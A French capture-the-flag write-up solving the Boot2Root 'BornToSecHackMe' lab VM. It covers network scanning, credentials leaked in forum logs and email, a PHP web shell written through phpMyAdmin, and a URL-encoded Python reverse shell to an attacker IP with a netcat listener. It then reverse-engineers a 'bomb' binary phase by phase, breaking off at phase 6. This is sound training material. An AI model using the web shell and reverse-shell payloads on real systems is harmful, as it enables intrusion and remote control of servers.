

### PRECISION

TOUTES LES COMMANDES EXECUTEES ULTERIEUREMENT SONT DEPENDANTE DU RESEAU SUR LEQUEL NOUS SOMMES. LES ADRESSES IP PEUVENT CHANGER, AUQUEL CAS IL FAUDRA ADAPTER NOS COMMANDES

### Début

Lorsque nous lancons la VM nous remarquons qu'aucune adresse IP nous est fournie.
Nous allons donc devoir scanner notre reseau pour voir les adresses utilisées.

```
nmap -sn 192.168.1.0/24
Nmap scan report for BornToSecHackMe (192.168.1.50)
nmap 192.168.1.50
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-09 14:57 CEST
Nmap scan report for BornToSecHackMe (192.168.1.50)
Host is up (0.00096s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 1 IP address (1 host up) scanned in 4.63 seconds
```
Nous voyons donc plusieurs ports ouverts pour cette adresse IP dont notamment les 80 et 443 qui correspondent au protocol http et https ainsi que le port 21 et 22 qui correspondent au ftp et ssh respectivement.

Dans Kali Linux nous avons deux outils utils pour la recherche de vulnerabilites web que nous avons deja utilisés pour Darkly :
Nikto qui est un outil pour scanner les vulnerabilites de serveur web
Dirb quiu va chercher les routes existantes ou cachées.
```
nikto -h https://192.168.1.50

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.50
+ Target Hostname:    192.168.1.50
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=BornToSec
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=BornToSec
+ Start Time:         2021-08-09 09:06:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Hostname '192.168.1.50' does not match certificate's names: BornToSec
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.20
+ Cookie PHPSESSID created without the secure flag
+ Cookie PHPSESSID created without the httponly flag
+ Cookie mlf2_usersettings created without the secure flag
+ Cookie mlf2_usersettings created without the httponly flag
+ Cookie mlf2_last_visit created without the secure flag
+ Cookie mlf2_last_visit created without the httponly flag
+ OSVDB-3092: /forum/: This might be interesting...
+ Cookie SQMSESSID created without the secure flag
+ Cookie SQMSESSID created without the httponly flag
+ OSVDB-3093: /webmail/src/read_body.php: SquirrelMail found
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 47542, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8876 requests: 0 error(s) and 24 item(s) reported on remote host
+ End Time:           2021-08-09 09:09:40 (GMT-4) (188 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nous voyons ici plusieurs routes que nous allons explorer pour voir si nous trouvons quelque chose d'interessant. La premiere étant /forum/:

### Forum



En fouillant un peu dans la section 'Probleme login ?' nous trouvons quelque chose d'interessant : 
```
curl --insecure https://192.168.1.50/forum/index.php\?id\=6 | grep "invalid user"
Oct  5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2<br />
```
Grace a ce mot de passe nous pouvons nous connecter sur le forum avec le couple lmezard/!q\]Ej?*5K5cy*AJ

Nous pouvons recuperer alors l'adresse mail associé a cet identifiant : laurie@borntosec.net

### Webmail

Lorsque nous nous connectons, nous voyons la présence d'un mail DB access avec une pair root/Fg-'kKXBj87E:aJ$. 
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
Connectons nous alors a la db via phpmyadmin

### phpMyAdmin

Nous arrivons donc a nous connecter a la db en tant que root grace au mdp fourni sur la boite mail de lmezard.

La technique la plus repandue la est de creer une backdoor dans un repertoire existant pour apres en chargeant la page adequat pourvoir executer un shell sur notre terminal

```
dirb https://192.168.1.50/forum

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Aug  9 09:59:40 2021
URL_BASE: https://192.168.1.50/forum/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.50/forum/ ----
+ https://192.168.1.50/forum/backup (CODE:403|SIZE:293)
+ https://192.168.1.50/forum/config (CODE:403|SIZE:293)
==> DIRECTORY: https://192.168.1.50/forum/images/
==> DIRECTORY: https://192.168.1.50/forum/includes/
+ https://192.168.1.50/forum/index (CODE:200|SIZE:4935)
+ https://192.168.1.50/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.1.50/forum/js/
==> DIRECTORY: https://192.168.1.50/forum/lang/
==> DIRECTORY: https://192.168.1.50/forum/modules/
==> DIRECTORY: https://192.168.1.50/forum/templates_c/
==> DIRECTORY: https://192.168.1.50/forum/themes/
==> DIRECTORY: https://192.168.1.50/forum/update/
```
On va essayer de placer notre backdoor dans un de ces repertoires : /forum/templates_c apres avoir cree une nouvelle db que jai nommé b2r
```
select "<?php system($_GET['cmd']); ?>" into outfile "var/www/forum/templates_c/backdoor.php"
```


https://192.168.1.50/forum/templates_c/backdoor.php?cmd=whoami nous donne :
```
www-data
```
Notre backdoor fonctionne correctement.

Ce que nous devons faire maintenant est de trouver un reverse shell que nous pourrons executer pour pouvoir se connecter au serveur. En cherchant sur internet il y a des reverse shell deja tout prets, prenons celui en python :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Pour pouvoir passer ce reverse shell a notre url il faudra l'encoder :
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.28%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%0A
```
 On va attendre la connexion sur notre machine Kali (machine qui a l'adresse correspondante a celle rentrée dans le reverse shell)
 ```
 nc -l -p 1234
 ```
D'une autre machine ou directement depuis le browser rentrer le reverse shell encode apres le cmd :

```
curl --insecure https://192.168.1.50/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.28%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%0A
```

Nous obtenons bien un nouveau prompt : 
```
$ whoami
www-data
$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

### WWW-DATA

La premiere idée qui me vient est d'essayer de faire une injection dynamique de librairie des plus classiques comme pour le level13 de snowcrash.

Cependant apres avoir execute l'injection, nous avons bien les droits root mais impossible d'acceder au dossier /root ??

En fouillant un peu plus nous remarquons un dossier LOOKATME dans le /home

```$ cd /home
$ ls
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz
$ cd LOOKATME
$ ls
password
$ cat password
lmezard:G!@M6f4Eatau{sF"
$ su lemezard
su: must be run from a terminal
```

Afin de pouvoir run su il a fallu faire quelque recherches sur internet et on va utiliser le module python pty :

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@BornToSecHackMe:/home/LOOKATME$ su lmezard
su lmezard
Password: G!@M6f4Eatau{sF"

lmezard@BornToSecHackMe:/home/LOOKATME$ ls
ls
lmezard@BornToSecHackMe:/home/LOOKATME$ cd /home/lmezard
lmezard@BornToSecHackMe:~$ ls
fun  README
lmezard@BornToSecHackMe:~$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

Nous remarquons ici la presence d'un fichier fun. En etudiant le fichier nous voyons que c'est une archive tar.
Essayons de recuperer le fichier pour l'etudier sur un terminal correct :
```
cp fun /var/www/forum/templates_c/fun // sur le terminal boot2root
tar -xf fun
cd ft_fun
```

En regardant un petit peu le fichier cat en lui meme nous voyons assez rapidement la presence de getme avec des index. Il va donc surement falloir les mettre dans l'ordre et ainsi nous aurons le mdp

```
grep return *
7DT5Q.pcap:	return 'a';
APM1E.pcap:	return 'I';
BJPCP.pcap:	return 'w';
BJPCP.pcap:	return 'n';
BJPCP.pcap:	return 'a';
BJPCP.pcap:	return 'g';
BJPCP.pcap:	return 'e';
ECOW1.pcap:	return 'e';
J5LKW.pcap:	return 't';
T44J5.pcap:	return 'p';
T7VV0.pcap:	return 'r';
ZPY1Q.pcap:	return 'h';
```

Nous avons les dernieres lettres dans l'ordre en faisant cat BJPCP.pcap | grep return :  wnage. Il nous reste aIetprh

En fait le challenge est tout bete. Chaque fichier correspond a du code et est listé //file[index]. Nous allons donc recuperer tous les index des fichier getme et afficher le file suivant pour avoir le retour, sauf pour ceux que l'on a deja eu. Je montre la marche a suivre pour le premier :

```
grep getme *
0T16C.pcap:char getme4() {
32O0M.pcap:char getme7() {
331ZU.pcap:char getme1() {
4KAOH.pcap:char getme5() {
91CD0.pcap:char getme6() {
B62N4.pcap:char getme3() {
BJPCP.pcap:char getme8() {
BJPCP.pcap:char getme9() {
BJPCP.pcap:char getme10() {
BJPCP.pcap:char getme11() {
BJPCP.pcap:char getme12()
BJPCP.pcap:	printf("%c",getme1());
BJPCP.pcap:	printf("%c",getme2());
BJPCP.pcap:	printf("%c",getme3());
BJPCP.pcap:	printf("%c",getme4());
BJPCP.pcap:	printf("%c",getme5());
BJPCP.pcap:	printf("%c",getme6());
BJPCP.pcap:	printf("%c",getme7());
BJPCP.pcap:	printf("%c",getme8());
BJPCP.pcap:	printf("%c",getme9());
BJPCP.pcap:	printf("%c",getme10());
BJPCP.pcap:	printf("%c",getme11());
BJPCP.pcap:	printf("%c",getme12());
G7Y8I.pcap:char getme2() {
cat 331ZU.pcap
char getme1() {

//file5#
grep -w file6 *
cat APM1E.pcap
	return 'I';

//file6#
```
Apres avoir fait ca pour tous les index nous avons le password suivant : Iheartpwnage. Cependant lorsque l'on essaye de se log en ssh le password est le mauvais car il faut un hash

```
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.1.27's password: Iheartpwnage

Permission denied, please try again.
laurie@192.168.1.27's password:
```

```
echo -n "Iheartpwnage" | shasum -a 256 // -n pour ne pas echo le \n
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
ssh laurie@192.168.1.27 // depuis la VM Kali directement
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.1.27's password:
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

### LAURIE

Recuperons le binaire sur notre VM Kali pour pouvoir l'etudier avec gdb-peda, ca sera plus simple

```
scp laurie@192.168.1.27:/home/laurie/bomb ~/boot2root/
```

On remarque plusieurs fonctions dans le main interessantes : 

``` 
0x08048b20  phase_1
0x08048b48  phase_2
0x08048b98  phase_3
0x08048ca0  func4
0x08048ce0  phase_4
0x08048d2c  phase_5
0x08048d98  phase_6
0x08048e94  fun7
0x08048ee8  secret_phase
```

#### Phase 1

```
gdb-peda$ disas phase_1
Dump of assembler code for function phase_1:
   0x08048b20 <+0>:	push   ebp
   0x08048b21 <+1>:	mov    ebp,esp
   0x08048b23 <+3>:	sub    esp,0x8
   0x08048b26 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048b29 <+9>:	add    esp,0xfffffff8
   0x08048b2c <+12>:	push   0x80497c0
   0x08048b31 <+17>:	push   eax
   0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>
   0x08048b37 <+23>:	add    esp,0x10
   0x08048b3a <+26>:	test   eax,eax
   0x08048b3c <+28>:	je     0x8048b43 <phase_1+35>
   0x08048b3e <+30>:	call   0x80494fc <explode_bomb>
   0x08048b43 <+35>:	mov    esp,ebp
   0x08048b45 <+37>:	pop    ebp
   0x08048b46 <+38>:	ret
End of assembler dump.

gdb-peda$ x/s 0x80497c0
0x80497c0:	"Public speaking is very easy."
gdb-peda$ r
Starting program: /root/boot2root/bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
```

#### Phase 2

``` 
gdb-peda$ disas phase_2
Dump of assembler code for function phase_2:
   0x08048b48 <+0>:	push   ebp
   0x08048b49 <+1>:	mov    ebp,esp
   0x08048b4b <+3>:	sub    esp,0x20
   0x08048b4e <+6>:	push   esi
   0x08048b4f <+7>:	push   ebx
   0x08048b50 <+8>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048b53 <+11>:	add    esp,0xfffffff8
   0x08048b56 <+14>:	lea    eax,[ebp-0x18]
   0x08048b59 <+17>:	push   eax
   0x08048b5a <+18>:	push   edx
   0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
   0x08048b60 <+24>:	add    esp,0x10
   0x08048b63 <+27>:	cmp    DWORD PTR [ebp-0x18],0x1
   0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
   0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
   0x08048b6e <+38>:	mov    ebx,0x1
   0x08048b73 <+43>:	lea    esi,[ebp-0x18]
   0x08048b76 <+46>:	lea    eax,[ebx+0x1]
   0x08048b79 <+49>:	imul   eax,DWORD PTR [esi+ebx*4-0x4]
   0x08048b7e <+54>:	cmp    DWORD PTR [esi+ebx*4],eax
   0x08048b81 <+57>:	je     0x8048b88 <phase_2+64>
   0x08048b83 <+59>:	call   0x80494fc <explode_bomb>
   0x08048b88 <+64>:	inc    ebx
   0x08048b89 <+65>:	cmp    ebx,0x5
   0x08048b8c <+68>:	jle    0x8048b76 <phase_2+46>
   0x08048b8e <+70>:	lea    esp,[ebp-0x28]
   0x08048b91 <+73>:	pop    ebx
   0x08048b92 <+74>:	pop    esi
   0x08048b93 <+75>:	mov    esp,ebp
   0x08048b95 <+77>:	pop    ebp
   0x08048b96 <+78>:	ret
End of assembler dump.
```

La fonction read_six_numbers nous laisse entendre que la deuxieme phase attend un suite de 6 nombre qu'il va falloir trouver.

Pour trouver les valeurs attendues nous y allons a tatons en regardant la valeur de eax a chaque passage dans la boucle et nous arrivons sur la suite suivante :1 2 6 24 120 720. Cette suite match bien avec l'indice présent dans le README

#### Phase 3

```
(gdb) disas phase_3
Dump of assembler code for function phase_3:
   0x08048b98 <+0>:	push   %ebp
   0x08048b99 <+1>:	mov    %esp,%ebp
   0x08048b9b <+3>:	sub    $0x14,%esp
   0x08048b9e <+6>:	push   %ebx
   0x08048b9f <+7>:	mov    0x8(%ebp),%edx
   0x08048ba2 <+10>:	add    $0xfffffff4,%esp
   0x08048ba5 <+13>:	lea    -0x4(%ebp),%eax
   0x08048ba8 <+16>:	push   %eax
   0x08048ba9 <+17>:	lea    -0x5(%ebp),%eax
   0x08048bac <+20>:	push   %eax
   0x08048bad <+21>:	lea    -0xc(%ebp),%eax
   0x08048bb0 <+24>:	push   %eax
   0x08048bb1 <+25>:	push   $0x80497de
   0x08048bb6 <+30>:	push   %edx
   0x08048bb7 <+31>:	call   0x8048860 <sscanf@plt>
   0x08048bbc <+36>:	add    $0x20,%esp
   0x08048bbf <+39>:	cmp    $0x2,%eax
   0x08048bc2 <+42>:	jg     0x8048bc9 <phase_3+49>
   0x08048bc4 <+44>:	call   0x80494fc <explode_bomb>
   0x08048bc9 <+49>:	cmpl   $0x7,-0xc(%ebp)
   0x08048bcd <+53>:	ja     0x8048c88 <phase_3+240>
   0x08048bd3 <+59>:	mov    -0xc(%ebp),%eax
   0x08048bd6 <+62>:	jmp    *0x80497e8(,%eax,4)
   0x08048bdd <+69>:	lea    0x0(%esi),%esi
   0x08048be0 <+72>:	mov    $0x71,%bl
   0x08048be2 <+74>:	cmpl   $0x309,-0x4(%ebp)
   0x08048be9 <+81>:	je     0x8048c8f <phase_3+247>
   0x08048bef <+87>:	call   0x80494fc <explode_bomb>
   0x08048bf4 <+92>:	jmp    0x8048c8f <phase_3+247>
   0x08048bf9 <+97>:	lea    0x0(%esi,%eiz,1),%esi
   0x08048c00 <+104>:	mov    $0x62,%bl
   0x08048c02 <+106>:	cmpl   $0xd6,-0x4(%ebp)
   0x08048c09 <+113>:	je     0x8048c8f <phase_3+247>
   0x08048c0f <+119>:	call   0x80494fc <explode_bomb>
   0x08048c14 <+124>:	jmp    0x8048c8f <phase_3+247>
   0x08048c16 <+126>:	mov    $0x62,%bl
   0x08048c18 <+128>:	cmpl   $0x2f3,-0x4(%ebp)
   0x08048c1f <+135>:	je     0x8048c8f <phase_3+247>
   0x08048c21 <+137>:	call   0x80494fc <explode_bomb>
   0x08048c26 <+142>:	jmp    0x8048c8f <phase_3+247>
   0x08048c28 <+144>:	mov    $0x6b,%bl
   0x08048c2a <+146>:	cmpl   $0xfb,-0x4(%ebp)
   0x08048c31 <+153>:	je     0x8048c8f <phase_3+247>
   0x08048c33 <+155>:	call   0x80494fc <explode_bomb>
   0x08048c38 <+160>:	jmp    0x8048c8f <phase_3+247>
   0x08048c3a <+162>:	lea    0x0(%esi),%esi
   0x08048c40 <+168>:	mov    $0x6f,%bl
   0x08048c42 <+170>:	cmpl   $0xa0,-0x4(%ebp)
   0x08048c49 <+177>:	je     0x8048c8f <phase_3+247>
   0x08048c4b <+179>:	call   0x80494fc <explode_bomb>
   0x08048c50 <+184>:	jmp    0x8048c8f <phase_3+247>
   0x08048c52 <+186>:	mov    $0x74,%bl
   0x08048c54 <+188>:	cmpl   $0x1ca,-0x4(%ebp)
   0x08048c5b <+195>:	je     0x8048c8f <phase_3+247>
   0x08048c5d <+197>:	call   0x80494fc <explode_bomb>
   0x08048c62 <+202>:	jmp    0x8048c8f <phase_3+247>
   0x08048c64 <+204>:	mov    $0x76,%bl
   0x08048c66 <+206>:	cmpl   $0x30c,-0x4(%ebp)
   0x08048c6d <+213>:	je     0x8048c8f <phase_3+247>
   0x08048c6f <+215>:	call   0x80494fc <explode_bomb>
   0x08048c74 <+220>:	jmp    0x8048c8f <phase_3+247>
   0x08048c76 <+222>:	mov    $0x62,%bl
   0x08048c78 <+224>:	cmpl   $0x20c,-0x4(%ebp)
   0x08048c7f <+231>:	je     0x8048c8f <phase_3+247>
   0x08048c81 <+233>:	call   0x80494fc <explode_bomb>
   0x08048c86 <+238>:	jmp    0x8048c8f <phase_3+247>
   0x08048c88 <+240>:	mov    $0x78,%bl
   0x08048c8a <+242>:	call   0x80494fc <explode_bomb>
   0x08048c8f <+247>:	cmp    -0x5(%ebp),%bl
   0x08048c92 <+250>:	je     0x8048c99 <phase_3+257>
   0x08048c94 <+252>:	call   0x80494fc <explode_bomb>
   0x08048c99 <+257>:	mov    -0x18(%ebp),%ebx
   0x08048c9c <+260>:	mov    %ebp,%esp
   0x08048c9e <+262>:	pop    %ebp
   0x08048c9f <+263>:	ret
End of assembler dump.
```

Nous remarquons ici la présence d'un scanf qui va attendre un int suivi d'un char puis d'un autre int. Grace au README nous savons deja que le char sera un 'b' (0x62). Il faudra donc s'interesser uniquement aux switch pour lesquel le caractere 'b' sera cmp :

```
   0x08048c00 <+104>:	mov    $0x62,%bl 
   0x08048c02 <+106>:	cmpl   $0xd6,-0x4(%ebp) // case 1 du switch

   0x08048c16 <+126>:	mov    $0x62,%bl
   0x08048c18 <+128>:	cmpl   $0x2f3,-0x4(%ebp) // case 2 du switch

   0x08048c76 <+222>:	mov    $0x62,%bl
   0x08048c78 <+224>:	cmpl   $0x20c,-0x4(%ebp) // case 7 du switch
```

Donc avons donc 3 combinaisons possibles qui fonctionne toutes : 1 b 214, 2 b 755 et 7 b 524. Il faudra donc tester les 3 possibilités pour le password final.

#### Phase 4

Pour cette phase le README ne nous donne aucun indice.

```
(gdb) disas phase_4
Dump of assembler code for function phase_4:
   0x08048ce0 <+0>:	push   %ebp
   0x08048ce1 <+1>:	mov    %esp,%ebp
   0x08048ce3 <+3>:	sub    $0x18,%esp
   0x08048ce6 <+6>:	mov    0x8(%ebp),%edx
   0x08048ce9 <+9>:	add    $0xfffffffc,%esp
   0x08048cec <+12>:	lea    -0x4(%ebp),%eax
   0x08048cef <+15>:	push   %eax
   0x08048cf0 <+16>:	push   $0x8049808
   0x08048cf5 <+21>:	push   %edx
   0x08048cf6 <+22>:	call   0x8048860 <sscanf@plt>
   0x08048cfb <+27>:	add    $0x10,%esp
   0x08048cfe <+30>:	cmp    $0x1,%eax
   0x08048d01 <+33>:	jne    0x8048d09 <phase_4+41>
   0x08048d03 <+35>:	cmpl   $0x0,-0x4(%ebp)
   0x08048d07 <+39>:	jg     0x8048d0e <phase_4+46>
   0x08048d09 <+41>:	call   0x80494fc <explode_bomb>
   0x08048d0e <+46>:	add    $0xfffffff4,%esp
   0x08048d11 <+49>:	mov    -0x4(%ebp),%eax
   0x08048d14 <+52>:	push   %eax
   0x08048d15 <+53>:	call   0x8048ca0 <func4>
   0x08048d1a <+58>:	add    $0x10,%esp
   0x08048d1d <+61>:	cmp    $0x37,%eax
   0x08048d20 <+64>:	je     0x8048d27 <phase_4+71>
   0x08048d22 <+66>:	call   0x80494fc <explode_bomb>
   0x08048d27 <+71>:	mov    %ebp,%esp
   0x08048d29 <+73>:	pop    %ebp
   0x08048d2a <+74>:	ret
End of assembler dump.
(gdb) disas func4
Dump of assembler code for function func4:
   0x08048ca0 <+0>:	push   %ebp
   0x08048ca1 <+1>:	mov    %esp,%ebp
   0x08048ca3 <+3>:	sub    $0x10,%esp
   0x08048ca6 <+6>:	push   %esi
   0x08048ca7 <+7>:	push   %ebx
   0x08048ca8 <+8>:	mov    0x8(%ebp),%ebx
   0x08048cab <+11>:	cmp    $0x1,%ebx
   0x08048cae <+14>:	jle    0x8048cd0 <func4+48>
   0x08048cb0 <+16>:	add    $0xfffffff4,%esp
   0x08048cb3 <+19>:	lea    -0x1(%ebx),%eax
   0x08048cb6 <+22>:	push   %eax
   0x08048cb7 <+23>:	call   0x8048ca0 <func4>
   0x08048cbc <+28>:	mov    %eax,%esi
   0x08048cbe <+30>:	add    $0xfffffff4,%esp
   0x08048cc1 <+33>:	lea    -0x2(%ebx),%eax
   0x08048cc4 <+36>:	push   %eax
   0x08048cc5 <+37>:	call   0x8048ca0 <func4>
   0x08048cca <+42>:	add    %esi,%eax
   0x08048ccc <+44>:	jmp    0x8048cd5 <func4+53>
   0x08048cce <+46>:	mov    %esi,%esi
   0x08048cd0 <+48>:	mov    $0x1,%eax
   0x08048cd5 <+53>:	lea    -0x18(%ebp),%esp
   0x08048cd8 <+56>:	pop    %ebx
   0x08048cd9 <+57>:	pop    %esi
   0x08048cda <+58>:	mov    %ebp,%esp
   0x08048cdc <+60>:	pop    %ebp
   0x08048cdd <+61>:	ret
End of assembler dump.
```

La phase 4 attend un int avec le sscanf 

On place un breakpoint après le retour de la fonction func4 pour check la valeur de eax qui va etre comparée juste apres avec 0x37 et on fait des test. Lorsque l'on rentre le chiffre 9 eax et bien egal a 55 (0x37) et la phase 4 est réussie.
```
9

Breakpoint 1, 0x08048d1a in phase_4 ()
(gdb) i reg
eax            0x37	55
ecx            0x0	0
edx            0x0	0
ebx            0xbffff7c4	-1073743932
esp            0xbffff6d0	0xbffff6d0
ebp            0xbffff6f8	0xbffff6f8
esi            0x0	0
edi            0x0	0
eip            0x8048d1a	0x8048d1a <phase_4+58>
eflags         0x200202	[ IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) c
Continuing.
So you got that one.  Try this one.
```

#### Phase 5
Ici l'indice donne par le README est o en premiere position.

```
(gdb) disas phase_5
Dump of assembler code for function phase_5:
   0x08048d2c <+0>:	push   %ebp
   0x08048d2d <+1>:	mov    %esp,%ebp
   0x08048d2f <+3>:	sub    $0x10,%esp
   0x08048d32 <+6>:	push   %esi
   0x08048d33 <+7>:	push   %ebx
   0x08048d34 <+8>:	mov    0x8(%ebp),%ebx
   0x08048d37 <+11>:	add    $0xfffffff4,%esp
   0x08048d3a <+14>:	push   %ebx
   0x08048d3b <+15>:	call   0x8049018 <string_length>
   0x08048d40 <+20>:	add    $0x10,%esp
   0x08048d43 <+23>:	cmp    $0x6,%eax
   0x08048d46 <+26>:	je     0x8048d4d <phase_5+33>
   0x08048d48 <+28>:	call   0x80494fc <explode_bomb>
   0x08048d4d <+33>:	xor    %edx,%edx
   0x08048d4f <+35>:	lea    -0x8(%ebp),%ecx
   0x08048d52 <+38>:	mov    $0x804b220,%esi
   0x08048d57 <+43>:	mov    (%edx,%ebx,1),%al
   0x08048d5a <+46>:	and    $0xf,%al
   0x08048d5c <+48>:	movsbl %al,%eax
   0x08048d5f <+51>:	mov    (%eax,%esi,1),%al
   0x08048d62 <+54>:	mov    %al,(%edx,%ecx,1)
   0x08048d65 <+57>:	inc    %edx
   0x08048d66 <+58>:	cmp    $0x5,%edx
   0x08048d69 <+61>:	jle    0x8048d57 <phase_5+43>
   0x08048d6b <+63>:	movb   $0x0,-0x2(%ebp)
   0x08048d6f <+67>:	add    $0xfffffff8,%esp
   0x08048d72 <+70>:	push   $0x804980b
   0x08048d77 <+75>:	lea    -0x8(%ebp),%eax
   0x08048d7a <+78>:	push   %eax
   0x08048d7b <+79>:	call   0x8049030 <strings_not_equal>
   0x08048d80 <+84>:	add    $0x10,%esp
   0x08048d83 <+87>:	test   %eax,%eax
   0x08048d85 <+89>:	je     0x8048d8c <phase_5+96>
   0x08048d87 <+91>:	call   0x80494fc <explode_bomb>
   0x08048d8c <+96>:	lea    -0x18(%ebp),%esp
   0x08048d8f <+99>:	pop    %ebx
   0x08048d90 <+100>:	pop    %esi
   0x08048d91 <+101>:	mov    %ebp,%esp
   0x08048d93 <+103>:	pop    %ebp
   0x08048d94 <+104>:	ret
End of assembler dump.
```

Nous voyson en phase_5+23 que la fonction attend une string de 6 caracteres
Nous avons egalement plusieurs point interessant :

```
(gdb) x 0x804b220 // en phase_5+38
0x804b220 <array.123>:	 "isrveawhobpnutfg\260\001"
(gdb) x 0x804980b // en phase_5 + 70
0x804980b:	 "giants"
```

Ce que je vais faire ici c'est que je vais regarder le comportement du programme au niveau de phase_5+89 pour toutes les lettres de l'alphabet et ainsi rentrer les bonnes lettres pour reproduire le mot giants.

```
abcdef : srveaw // s : a et a : e
ghijkl : hobpnu // n : k
mnopqr : tfgisr // g : o,  i : p  t : m et s : q
stuvwx : veawho // a : u
xz : bp
==> opekma ou opekmq ou opukma ou opukmq
```
Encore une fois il faudra tester les 4 pour le password final.

#### Phase 6

Ici l'indice du README est 4. Le programme va attendre 6 int d'apres le read_six_numbers et le premier int sera donc un 4.

Nous remarquons l'utilisation de plusieurs variables globales dans cette fonction : 

```
   0x08048da4 <+12>:	movl   $0x804b26c,-0x34(%ebp)
   (gdb) x 0x804b26c
   0x804b26c <node1>:	  <incomplete sequence \375>
   (gdb) p node1
   $3 = 253
   (gdb) p node2
   $4 = 725
   (gdb) p node3
   $5 = 301
   (gdb) p node4
   $6 = 997
   (gdb) p node5
   $7 = 212
   (gdb) p node6
   $8 = 432
   (gdb)
```

